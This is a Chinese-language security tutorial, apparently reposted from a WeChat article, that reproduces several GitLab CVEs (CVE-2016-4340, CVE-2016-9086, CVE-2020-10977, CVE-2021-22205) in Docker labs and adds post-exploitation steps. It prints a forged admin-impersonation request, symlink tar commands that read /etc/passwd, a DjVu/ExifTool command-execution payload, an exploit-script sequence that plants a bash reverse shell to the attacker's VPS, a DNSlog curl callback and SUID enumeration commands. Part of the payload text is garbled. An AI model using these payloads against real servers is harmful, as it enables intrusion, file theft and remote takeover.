## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Labs8.7.0/8.13.1/12.1.6/13.10.1/13.9.1; 10977broad&lt;=12.9;22214incorrectinclusive13.12.2;postexploitexample14.3.0 separate

代码与实验材料：Independent VERSIONfirstline/project.jsonsymlinkanalysis, intactuploads traversal, ExifToolrequests/UI,post-exploitationcommands; DjVUbinarytext corrupted, accountcreationRuby mangled

来源证据范围：Namedauthor,official9086/HackerOne/Seebug,Vulhub,Al1ex,StarLabsreferences

- **适用与权限边界（1）**：GitLabadminroot confused withOSroot in4340result; passwd shellfield not permission/SSHauthorization proof。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：Recommends Al1ex verification whose codein126 executeswhoami/externalcallback; verify mode not harmless。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：Restore binary/source snippets andsafe cleanup; generickernelprivesc suggestions notprovenGitLabchain。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：Fix metadata andper-branchversion boundaries; labelsecret/passwordchangesasconsequentialpost-exploitexamples。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Gitlab 常见漏洞复现及后利用

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9YtsUJuABEpwmVv--47Mag)

**作者：HKEcho@深蓝实验室重保天佑战队**

**前言**
------

  GitLab 是一个用于仓库管理系统的开源项目，使用 Git 作为代码管理工具，可通过 Web 界面访问公开或私人项目。这里整理了 gitlab 常见的漏洞，并在整理过程中发现网上对于 gitlab 的后利用相关内容较少，这里进行补充。

**GitLab 版本检测**
---------------

命令行：

  使用如下命令可查看当前 GitLab 的版本：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
</td></tr></tbody></table>

Web 页面：

  登录后 http://ip/help 或者直接访问 http://ip/help。

**1、CVE-2016-4340**
-------------------

### **影响版本**

    Gitlab 8.7.0

    Gitlab 8.6.0-8.6.7

    Gitlab 8.5.0-8.5.11

    Gitlab 8.4.0-8.4.9

    Gitlab 8.3.0-8.3.8

    Gitlab 8.2.0-8.2.4

### **环境拉取**

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
docker pull gitlab/gitlab-ce:8.7.0-ce.0

docker run -d&nbsp; -p 443:443 -p 80:80 -p 222:22 --name gitlab --restart always -v /home/gitlab/config:/etc/gitlab -v /home/gitlab/logs:/var/log/gitlab -v /home/gitlab/data:/var/opt/gitlab gitlab/gitlab-ce:8.7.0-ce.0
</td></tr></tbody></table>

  环境搭好后需要更改密码，先创建普通用户，并登录：



### **漏洞复现**

  然后新建项目





  抓包并查看 authenticity_token 的值

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="1086" valign="middle">
WmZhMvRYay9X3p27Ai%2Fu28xW5ndPsJrKVk3aCsas%2B0fUqNmligcX%2FqkzmBMSFElxjUKJRbscBcWDm3WCNG8zaw%3D%3D
</td></tr></tbody></table>



  把包内容全部删除



  返回浏览器访问 your-ip/admin/users/stop_impersonation?id=root



  丢弃掉空白的包，会看到新的包





  把数据包修改成 post 并加入 post 参数，最后把刚刚获取 authenticity_token 值替换进去。放包

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="1010" valign="middle">
POST /admin/users/stop_impersonation?id=root

. . .

_method=delete&amp;authenticity_token=WmZhMvRYay9X3p27Ai%2Fu28xW5ndPsJrKVk3aCsas%2B0fUqNmligcX%2FqkzmBMSFElxjUKJRbscBcWDm3WCNG8zaw%3D%3D
</td></tr></tbody></table>

  成功获取 root 权限



**2、任意文件读取漏洞（CVE-2016-9086）**
-----------------------------

  在 8.9 版本后添加的 "导出、导入项目" 功能，因为没有处理好压缩包中的软连接，已登录用户可以利用这个功能读取服务器上的任意文件。

  注：GitLab8.9.0-8.13.0 版本的项目导入功能需要管理员开启，gitlab8.13.0 版本之后所有用户都可以使用导入功能。管理员可以访问 http://domain/admin/application_settings 开启，开启之后用任意用户新建项目的时候，可以在 export 一项中看到。

**影响版本**

  GitLab CE/EEversions 8.9、8.10、8.11、8.12 和 8.13

### **环境拉取**

  Vulhub 执行如下命令启动一个 GitLab Community Server 8.13.1：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
docker-compose up -d
</td></tr></tbody></table>

  环境运行后，访问 http://192.168.235.129:8080 即可查看 GitLab 主页，其 ssh 端口为 10022，默认管理员账号 root、密码是 vulhub123456。

  注意，请使用 2G 及以上内存的 VPS 或虚拟机运行该环境，实测 1G 内存的机器无法正常运行 GitLab（运行后 502 错误）。

**漏洞复现**  

  注册并登录一个帐户：



  然后单击”新建项目 “页面上的“GitLab 导出” 按钮：



  上传文件 test.tar.gz，访问文件发现被泄露：/etc/passwd





### **原理分析**

  一个空的项目导出后结构如下：



  VERSION 的文件内容为 GitLab 的导出模块的版本，project.json 则包含了项目的配置文件。

  导入 GitLab 的导出文件的时候，GitLab 会按照如下步骤处理：

        1. 服务器根据 VERSION 文件内容检测导出文件版本，如果版本符合，则导入。

        2. 服务器根据 Project.json 文件创建一个新的项目，并将对应的项目文件拷贝到服务器上对应的位置。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
...

def&nbsp;check!

version =&nbsp;File.open(version_file, &amp;:readline)

verify_version!(version)

rescue&nbsp;=&gt; e

shared.error(e)

false

end

...

def&nbsp;verify_version!(version)

if&nbsp;Gem::Version.new(version) != Gem::Version.new(Gitlab::ImportExport.version)

raise&nbsp;Gitlab::ImportExport::Error.new("Import version mismatch: Required #{Gitlab::ImportExport.version} but was #{version}")

else

true

end

end

...
</td></tr></tbody></table>

  这里的逻辑是读取 VERSION 文件的第一行赋值给变量 version，然后检测 verison 与当前版本是否相同，相同返回 true，version 不相同则返回错误信息 (错误信息中包括变量的值)。

  于是漏洞发现者巧妙的使用了软链接来达到读取任意文件的目的。首先，我们给 VERSION 文件加上软链接并重新打包。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
ln -sf /etc/passwd VERSION

tar zcf change_version.tar.gz ./
</td></tr></tbody></table>



  这样，读取 VERSION 文件的时候服务器就会根据软链接读取到 / etc/passwd 的第一行内容并赋值给 version。但是由于 version 与当前版本不相同，所以会输出 version 的值，也就是 / etc/passwd 第一行的内容。

  访问之前搭建好的 GitLab 服务器，创建一个新的项目，填写完项目名称后在一栏中选择 Import project fromGitLab ，export 上传我们修改后的导入包，然后就可以看到 / etc/passwd 文件第一行



  但是，如果只读取任意文件的第一行，能做的事情还是太少了。漏洞发现者显然不满足这一结果，他继续找了下去.

  读取这一配置文件的代码位于：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
Project.json/lib/gitlab/import_export/project_tree_restorer.rb
</td></tr></tbody></table>

中：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
...

def&nbsp;restore

json =&nbsp;IO.read(@path)

tree_hash = ActiveSupport::JSON.decode(json)

project_members = tree_hash.delete('project_members')

ActiveRecord::Base.no_touching&nbsp;do

create_relations

end

rescue&nbsp;=&gt; e

shared.error(e)

false

end

...
</td></tr></tbody></table>

  在这里，我们可以再次使用软链接使变量获取到任意文件的内容，但是由于获取的 json 文件不是 json 格式，无法 decode，导致异常抛出，最终在前端显示出任意文件的内容。添加软链接并打包:

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
ln -sf /etc/passwd project.json

tar zcf change_version.tar.gz ./
</td></tr></tbody></table>



  上传导出包，页面上显示的结果：

### **参考链接**

    https://about.gitlab.com/releases/2016/11/02/cve-2016-9086-patches/

    https://hackerone.com/reports/178152

    http://paper.seebug.org/104/

**3、任意文件读取漏洞（CVE-2020-10977）**
------------------------------

  在 Gitlab 8.5-12.9 版本中，存在一处任意文件读取漏洞，攻击者可以利用该漏洞，在不需要特权的状态下，读取任意文件，造成严重信息泄露，从而导致进一步被攻击的风险。

### **影响版本**

  8.5 <= GitLab GitLab CE/EE <=12.9

### **环境搭建**

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
docker run --detach --hostname&nbsp;192.168.235.129&nbsp;--publish 443:443 --publish 80:80 --publish 22:22 --name gitlab --restart always --volume /root/config:/etc/gitlab --volume /root/logs:/var/log/gitlab --volume /root/data:/var/opt/gitlab gitlab/gitlab-ee:12.1.6-ee.0
</td></tr></tbody></table>

  将 IP 改为自己电脑本机 IP，运行搭建成功访问即可，环境搭好后需要更改密码

  在此处创建一个新的账号。

### **漏洞复现**

  登录 gitlab, 创建两个 project



  在 project1 中创建 issues。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
<code></code>
</td></tr></tbody></table>



  将 issues move 到 project2 中。



  移动成功后，点击链接即可下载指定文件



### **漏洞 exp**

亲测可用：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
https://blog.csdn.net/weixin_45006525/article/details/116189572
</td></tr></tbody></table>

**4、远程命令执行漏洞（CVE-2021-22205）**
------------------------------

  11.9 以后的 GitLab 中，因为使用了图片处理工具 ExifTool 而受到漏洞 CVE-2021-22204 的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在 GitLab 服务器上执行命令。

**影响版本**

该漏洞影响以下 GitLab 企业版和社区版：

    11.9 <= Gitlab CE/EE < 13.8.8

    13.9 <= Gitlab CE/EE < 13.9.6

    13.10 <= Gitlab CE/EE < 13.10.3

### **环境拉取**

  执行如下命令通过 vulhub（官网地址：https://vulhub.org/）启动一个 GitLab 13.10.1 版本服务器：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
docker-compose up -d
</td></tr></tbody></table>

  环境启动后，访问 http://your-ip:8080 即可查看到 GitLab 的登录页面。



### **漏洞复现**

#### **1、简单复现**

  GitLab 的 / uploads/user 接口可以上传图片且无需认证，利用 vulhub 自带的 poc.py 脚本来测试这个漏洞：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
python poc.py http://your-ip:8080 "touch /tmp/success"
</td></tr></tbody></table>



  进入容器查看

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
docker-compose exec gitlab bash
</td></tr></tbody></table>

  可见 touch /tmp/success 已成功执行：



#### **2、详细分析**

  获取 X-CSRF-Token

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
GET /users/sign_in
</td></tr></tbody></table>



 RCE

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
POST&nbsp;/uploads/user

Host: \{\{Hostname\}\}

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5

X-CSRF-Token:&nbsp;\{\{csrf-token\}\}

Content-Disposition: form-data;

Content-Type: image/jpeg

AT&amp;TFORM&nbsp;疍 JVMDIRM .? F ?蘅?! 葢 N? 亿堣 k 鍰, q 領觧暯⒚"?FORM ^DJVUINFO

d INCL shared_anno.iff BG44 J&nbsp;婃岜 7?*? BG44&nbsp;鶡 BG44

FORM DJVIANTa P(metadata

(Copyright "\

" . qx{echo vakzz&gt;/tmp/vakzz} . \

"b") )
</td></tr></tbody></table>

   这个下图是之前做的，所以找不文件了，内容都是一样，明白 POST 提交的数据包是什么内容即可。



   关于 vulhub 的 poc.py 脚本内容，数据也是和我们上面所发送的数据包一致：



#### **3、完整复现**

   这里由于 vulhub 靶场的 CVE-2021-22205 靶场环境太过于局限，这里我重新拉取一个 gitlab13.9 的版本，操作如下：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
export GITLAB_HOME=/srv/gitlab

sudo docker run --detach \

&nbsp; --hostname gitlab.example.com \

&nbsp; --publish 443:443 --publish 80:80 \

&nbsp; --name gitlab \

&nbsp; --restart always \

&nbsp; --volume $GITLAB_HOME/config:/etc/gitlab \

&nbsp; --volume $GITLAB_HOME/logs:/var/log/gitlab \

&nbsp; --volume $GITLAB_HOME/data:/var/opt/gitlab \

&nbsp; gitlab/gitlab-ce:13.9.1-ce.0
</td></tr></tbody></table>

   环境如下：



  浏览器访问本机 IP:80 即可成功访问到 gitlab 界面。需要设置密码，我这里随便设了一个。



  这里直接推荐 Al1ex 师傅的脚本（脚本原理与上面也是一样的）：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
https://github.com/Al1ex/CVE-2021-22205
</td></tr></tbody></table>

这里有三种模式:

    验证模式：验证是否存在漏洞

    攻击模式：可以通过 - c 更改命令

    批量检测：若指纹识别得到多个 gitlab，可以放入 txt 里面进行批量验证是否存在本漏洞。



  这里我们先验证目标漏洞是否存在：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
python CVE-2021-22205.py -v true -t http://192.168.235.129/
</td></tr></tbody></table>

  返回漏洞存在：



  进一步通过 DNSlog 去验证：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
python CVE-2021-22205.py&nbsp; -a true -t http://192.168.235.129/ -c "curl&nbsp;DNSlog 地址 "
</td></tr></tbody></table>

  这里最好用自己的 DNSlog，如果没有的可以使用这个平台：https://dig.pm/

  看一下结果，发现 Dnslog 接收到了来自目标主机的数据，说明漏洞确实存在：



        反弹 shell

        首先在自己的 VPS 上监听端口

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
nc -lvvp 5120
</td></tr></tbody></table>



<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
python CVE-2021-22205.py -a true -t http://192.168.235.129/ -c "echo'bash -i &gt;&amp; /dev/tcp/ 自己 VPS 的 IP/5120 0&gt;&amp;1'&gt; /tmp/1.sh"

python CVE-2021-22205.py -a true -t http://192.168.235.129/ -c "chmod +x /tmp/1.sh"

python CVE-2021-22205.py -a true -t http://192.168.235.129/ -c "/bin/bash /tmp/1.sh"
</td></tr></tbody></table>



  然后返回来看自己监听的 VPS，可以看到已经得到一个 shell 了



#### **4、/** 后利用 **/**

  前面通过 rce 后拿到的默认是 git 用户，非 root 用户



##### **利用方式一：提权**

    这里建议通过如 polkit、脏牛等漏洞进行后一步提权。

    查看 SUID 可执行文件的命令：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
find / -user root -perm -4000 -print 2&gt;/dev/null

find / -perm -u=s -type f 2&gt;/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;
</td></tr></tbody></table>

  Linux Polkit 权限提升漏洞（CVE-2021-4034）：

